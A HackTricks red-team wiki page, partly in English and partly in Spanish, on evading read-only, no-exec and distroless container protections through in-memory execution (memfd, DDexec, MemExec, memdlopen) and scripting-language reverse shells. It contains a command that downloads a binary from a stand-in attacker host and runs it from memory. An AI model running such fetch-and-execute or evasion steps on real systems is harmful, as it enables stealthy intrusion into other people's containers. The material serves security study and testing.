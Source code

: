 # Bypass FS protections: read-only / no-exec / Distroless

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

If you are interested in **hacking career** and hack the unhackable - **we are hiring!** (_se requiere polaco fluido escrito y hablado_).

{% embed url="https://www.stmcyber.com/careers" %}

## Videos

In the following videos you can find the techniques mentioned in this page explained more in depth:

* [**DEF CON 31 - Exploring Linux Memory Manipulation for Stealth and Evasion**](https://www.youtube.com/watch?v=poHirez8jk4)
* [**Stealth intrusions with DDexec-ng & in-memory dlopen() - HackTricks Track 2023**](https://www.youtube.com/watch?v=VM\_gjjiARaU)

## read-only / no-exec scenario

It's more and more common to find linux machines mounted with **read-only (ro) file system protection**, specially in containers. This is because to run a container with ro file system is as easy as setting **`readOnlyRootFilesystem: true`** in the `securitycontext`:

<pre class="language-yaml"><code class="lang-yaml">apiVersion: v1
kind: Pod
metadata:
name: alpine-pod
spec:
containers:
- name: alpine
image: alpine
securityContext:
<strong>      readOnlyRootFilesystem: true
</strong>    command: ["sh", "-c", "while true; do sleep 1000; done"]
</code></pre>

However, even if the file system is mounted as ro, **`/dev/shm`** will still be writable, so it's fake we cannot write anything in the disk. However, this folder will be **mounted with no-exec protection**, so if you download a binary here you **won't be able to execute it**.

{% hint style="warning" %}
From a red team perspective, this makes **complicated to download and execute** binaries that aren't in the system already (like backdoors o enumerators like `kubectl`).
{% endhint %}

## Easiest bypass: Scripts

Note that I mentioned binaries, you can **execute any script** as long as the interpreter is inside the machine, like a **shell script** if `sh` is present or a **python** **script** if `python` is installed.

However, this isn't just enough to execute your binary backdoor or other binary tools you might need to run.

## Memory Bypasses

If you want to execute a binary but the file system isn't allowing that, the best way to do so is by **executing it from memory**, as the **protections doesn't apply in there**.

### FD + exec syscall bypass

If you have some powerful script engines inside the machine, such as **Python**, **Perl**, or **Ruby** you could download the binary to execute from memory, store it in a memory file descriptor (`create_memfd` syscall), which isn't going to be protected by those protections and then call a **`exec` syscall** indicating the **fd as the file to execute**.

For this you can easily use the project [**fileless-elf-exec**](https://github.com/nnsee/fileless-elf-exec). You can pass it a binary and it will generate a script in the indicated language with the **binary compressed and b64 encoded** with the instructions to **decode and decompress it** in a **fd** created calling `create_memfd` syscall and a call to the **exec** syscall to run it.

{% hint style="warning" %}
This doesn't work in other scripting languages like PHP or Node because they don't have any d**efault way to call raw syscalls** from a script, so it's not possible to call `create_memfd` to create the **memory fd** to store the binary.

Moreover, creating a **regular fd** with a file in `/dev/shm` won't work, as you won't be allowed to run it because the **no-exec protection** will apply.
{% endhint %}

### DDexec / EverythingExec

[**DDexec / EverythingExec**](https://github.com/arget13/DDexec) is a technique that allows you to **modify the memory your own process** by overwriting its **`/proc/self/mem`**.

Therefore, **controlling the assembly code** that is being executed by the process, you can write a **shellcode** and "mutate" the process to **execute any arbitrary code**.

{% hint style="success" %}
**DDexec / EverythingExec** will allow you to load and **execute** your own **shellcode** or **any binary** from **memory**.
{% endhint %}
```bash
# Basic example
wget -O- https://attacker.com/binary.elf | base64 -w0 | bash ddexec.sh argv0 foo bar
```
Para más información sobre esta técnica, consulta el Github o:

{% content-ref url="ddexec.md" %}
[ddexec.md](ddexec.md)
{% endcontent-ref %}

### MemExec

[**Memexec**](https://github.com/arget13/memexec) es el siguiente paso natural de DDexec. Es un **DDexec shellcode demonizado**, por lo que cada vez que quieras **ejecutar un binario diferente** no necesitas relanzar DDexec, solo puedes ejecutar el shellcode de memexec a través de la técnica DDexec y luego **comunicarte con este demonio para pasar nuevos binarios para cargar y ejecutar**.

Puedes encontrar un ejemplo de cómo usar **memexec para ejecutar binarios desde un reverse shell de PHP** en [https://github.com/arget13/memexec/blob/main/a.php](https://github.com/arget13/memexec/blob/main/a.php).

### Memdlopen

Con un propósito similar al de DDexec, la técnica [**memdlopen**](https://github.com/arget13/memdlopen) permite una **manera más fácil de cargar binarios** en memoria para ejecutarlos más tarde. Podría incluso permitir cargar binarios con dependencias.

## Bypass Distroless

### Qué es distroless

Los contenedores distroless contienen solo los **componentes mínimos necesarios para ejecutar una aplicación o servicio específico**, como bibliotecas y dependencias de tiempo de ejecución, pero excluyen componentes más grandes como un gestor de paquetes, shell o utilidades del sistema.

El objetivo de los contenedores distroless es **reducir la superficie de ataque de los contenedores al eliminar componentes innecesarios** y minimizar el número de vulnerabilidades que pueden ser explotadas.

### Reverse Shell

En un contenedor distroless, es posible que **ni siquiera encuentres `sh` o `bash`** para obtener un shell regular. Tampoco encontrarás binarios como `ls`, `whoami`, `id`... todo lo que normalmente ejecutas en un sistema.

{% hint style="warning" %}
Por lo tanto, **no** podrás obtener un **reverse shell** o **enumerar** el sistema como lo haces normalmente.
{% endhint %}

Sin embargo, si el contenedor comprometido está ejecutando, por ejemplo, un flask web, entonces python está instalado, y por lo tanto puedes obtener un **reverse shell de Python**. Si está ejecutando node, puedes obtener un reverse shell de Node, y lo mismo con casi cualquier **lenguaje de scripting**.

{% hint style="success" %}
Usando el lenguaje de scripting podrías **enumerar el sistema** utilizando las capacidades del lenguaje.
{% endhint %}

Si no hay protecciones de **`read-only/no-exec`**, podrías abusar de tu reverse shell para **escribir en el sistema de archivos tus binarios** y **ejecutarlos**.

{% hint style="success" %}
Sin embargo, en este tipo de contenedores, estas protecciones generalmente existirán, pero podrías usar las **técnicas de ejecución en memoria anteriores para eludirlas**.
{% endhint %}

Puedes encontrar **ejemplos** sobre cómo **explotar algunas vulnerabilidades RCE** para obtener **reverse shells** de lenguajes de scripting y ejecutar binarios desde la memoria en [**https://github.com/carlospolop/DistrolessRCE**](https://github.com/carlospolop/DistrolessRCE).

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Si estás interesado en una **carrera de hacking** y hackear lo inhackeable - **¡estamos contratando!** (_se requiere polaco fluido escrito y hablado_).

{% embed url="https://www.stmcyber.com/careers" %}

{% hint style="success" %}
Aprende y practica Hacking en AWS:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Consulta los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte trucos de hacking enviando PRs a los** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositorios de github.

</details>
{% endhint %}
